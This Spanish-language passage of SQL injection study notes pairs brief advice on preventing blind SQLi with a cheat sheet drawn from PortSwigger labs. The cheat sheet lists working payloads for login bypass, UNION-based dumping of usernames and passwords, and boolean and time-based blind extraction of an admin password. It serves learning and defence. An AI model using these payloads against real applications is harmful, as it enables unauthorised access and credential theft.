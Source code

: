 ### Prevenir Blind SQLi específicamente

* Las medidas anteriores mitigan blind SQLi (parametrización/escapado).
* Evita mostrar diferencias pequeñas entre respuestas que permitan inferencia (por ejemplo, no devolver contenido distinto ante errores o condiciones internas).
* Limitar tiempos máximos de respuesta y proteger la función `SLEEP` del motor si es posible (no siempre aplicable).

---

## Cheat sheet (resumen rápido) — basado en labs de PortSwigger

> Nota: ajustar payloads según motor (MySQL/Postgres/MSSQL/Oracle) y contexto (cadena vs número). Evita usar estos comandos en sistemas sin autorización.

### Comentarios según motor

* MySQL: `-- ` o `#` (nota: `-- ` requiere espacio después)
* MSSQL/Oracle: `--`
* Multi-line: `/* ... */`

### Cerrar comillas y pruebas básicas

* `1' OR '1'='1'-- ` — autenticación bypass básica
* `' OR 'x'='x` — boolean test

### Detectar número de columnas

* `ORDER BY 1--`, `ORDER BY 2--`, ...
* `UNION SELECT NULL--`, `UNION SELECT NULL,NULL--`, ...

### UNION payloads (MySQL example)

* `-1' UNION SELECT null,version()-- `
* `-1' UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema=database()-- `

### Extraer usuarios/contraseñas

* `-1' UNION SELECT null, CONCAT(username,0x3a,password) FROM users-- `

### Boolean based (blind)

* `1' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'-- `
* `1' AND (SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='admin') > 109-- `

### Time based

* MySQL: `1' AND IF(SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a', SLEEP(5), 0)-- `
* PostgreSQL: `1' AND (SELECT CASE WHEN (substring((SELECT password FROM users LIMIT 1),1,1)='a') THEN pg_sleep(5) ELSE pg_sleep(0) END)-- `
